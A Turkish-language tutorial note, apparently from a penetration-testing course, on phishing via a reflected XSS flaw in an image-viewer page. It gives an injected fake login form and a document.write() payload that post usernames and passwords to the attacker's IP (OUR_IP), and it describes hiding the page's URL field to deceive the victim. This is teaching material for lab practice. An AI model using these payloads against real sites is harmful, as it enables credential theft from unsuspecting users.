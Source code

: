 

# Phishing

![Pasted image 20241116033428.png](/img/user/resimler/Pasted%20image%2020241116033428.png)

Bu tür resim görüntüleyiciler çevrimiçi forumlarda ve benzer web uygulamalarında yaygındır. URL üzerinde kontrol sahibi olduğumuz için, kullandığımız temel XSS payload'unu kullanarak başlayabiliriz. Ancak bu payload'u denediğimizde, hiçbir şeyin çalıştırılmadığını ve ölü resim url simgesini aldığımızı görüyoruz:

![Pasted image 20241116033503.png](/img/user/resimler/Pasted%20image%2020241116033503.png)


## Login Form Injection

```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Yukarıdaki HTML kodunda OUR_IP, tun0 altında (ip a) komutu ile bulabileceğimiz VM'mizin IP'sidir. Daha sonra formdan gönderilen kimlik bilgilerini almak için bu IP'yi dinleyeceğiz. Giriş formu aşağıdaki gibi görünmelidir:


Daha sonra, XSS kodumuzu hazırlamalı ve savunmasız form üzerinde test etmeliyiz. HTML kodunu savunmasız sayfaya yazmak için document.write() JavaScript işlevini kullanabilir ve bunu daha önce XSS Discovery adımında bulduğumuz XSS payload'unda kullanabiliriz. HTML kodumuzu tek bir satıra indirgedikten ve write fonksiyonunun içine ekledikten sonra, nihai JavaScript kodu aşağıdaki gibi olmalıdır:

```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

Artık XSS payload'umuzu kullanarak bu JavaScript kodunu enjekte edebiliriz (yani alert(window.origin) JavaScript Kodunu çalıştırmak yerine). Bu durumda, bir Reflected XSS güvenlik açığından yararlanıyoruz, bu nedenle Reflected XSS bölümünde yaptığımız gibi URL'yi ve XSS payload'umuzu parametrelerine kopyalayabiliriz ve kötü amaçlı URL'yi ziyaret ettiğimizde sayfa aşağıdaki gibi görünmelidir:

![Pasted image 20241116033704.png](/img/user/resimler/Pasted%20image%2020241116033704.png)


### Cleaning Up
URL alanının hala görüntülendiğini görebiliyoruz, bu da “Devam etmek için lütfen giriş yapın” cümlemizi geçersiz kılıyor. Bu nedenle, kurbanı giriş formunu kullanmaya teşvik etmek için URL alanını kaldırmalıyız, böylece sayfayı kullanabilmek için giriş yapmaları gerektiğini düşünebilirler. Bunu yapmak için JavaScript fonksiyonu document.getElementById().remove() fonksiyonunu kullanabiliriz.
